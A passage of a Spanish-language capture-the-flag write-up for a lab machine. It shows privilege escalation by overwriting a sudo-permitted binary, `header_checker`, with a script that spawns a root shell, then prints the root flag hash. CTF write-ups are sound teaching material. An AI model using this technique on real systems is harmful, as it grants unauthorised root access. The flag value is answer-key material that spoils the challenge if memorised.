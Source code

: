 Podemos ejecutar el binario `header_checker` como el usuario `root`, por lo que podremos realizar lo siguiente:

Vamos a limpiar el binario de esta forma:

```shell
echo '' > /home/shrek/header_checker
```

Ahora vamos a meter la siguiente informacion:

```shell
#!/bin/bash 

/bin/bash
```

Lo guardamos y ejecutaremos de esta forma:

```shell
sudo /home/shrek/header_checker
```

Info:

```
root@swamp:/home/shrek# whoami
root
```

Vemos que con esto seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
9c7bddee2e2fb8ad03854f106f23c6b5
```
